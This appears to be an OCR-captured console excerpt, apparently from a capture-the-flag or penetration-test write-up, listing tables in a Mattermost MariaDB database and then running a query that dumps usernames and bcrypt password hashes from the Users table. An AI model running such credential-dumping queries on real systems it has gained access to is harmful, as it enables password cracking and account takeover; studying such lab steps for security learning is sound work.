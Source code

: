 ```console
| GroupChannels          | 
| GroupMembers           | 
| GroupTeams             | 
| IncomingWebhooks       | 
| Jobs                   | 
| Licenses               | 
| LinkMetadata           | 
| OAuthAccessData        | 
| OAuthApps              | 
| OAuthAuthData          | 
| OutgoingWebhooks       | 
| PluginKeyValueStore    | 
| Posts                  | 
| Preferences            | 
| ProductNoticeViewState | 
| PublicChannels         | 
| Reactions              | 
| Roles                  | 
| Schemes                | 
| Sessions               | 
| SidebarCategories      | 
| SidebarChannels        | 
| Status                 | 
| Systems                | 
| TeamMembers            | 
| Teams                  | 
| TermsOfService         | 
| ThreadMemberships      | 
| Threads                | 
| Tokens                 | 
| UploadSessions         | 
| UserAccessTokens       | 
| UserGroups             | 
| UserTermsOfService     | 
| Users                  | 
+------------------------+ 
46 rows in set (0.001 sec) 
 
MariaDB [mattermost]> select Username, password from Users; 
+----------------------------------+--------------------------------------------------------------+ 
| Username                         | password                                                     | 
+----------------------------------+--------------------------------------------------------------+ 
| surveybot                        |                                                              | 
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK | 
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G | 
| villan01001                      | $2a$10$YMGReK8l3SwUykvUjY9pl.Tj2KflDXd44VaXBiNsn3htENboTVYoe | 
| villan01001001                   | $2a$10$uyOHFRVhWvdp1EEIE6xPvuLFVSF4JYz3Ki3OBJ6nQSRJv05xjUM/W | 
| neon0                            | $2a$10$J67BzSdhWCfSGL6/bhiflO/TnArhd9PH/wFd1hYwOvKoZXMOfKl06 | 
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO | 
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq | 
| channelexport                    |                                                              | 
```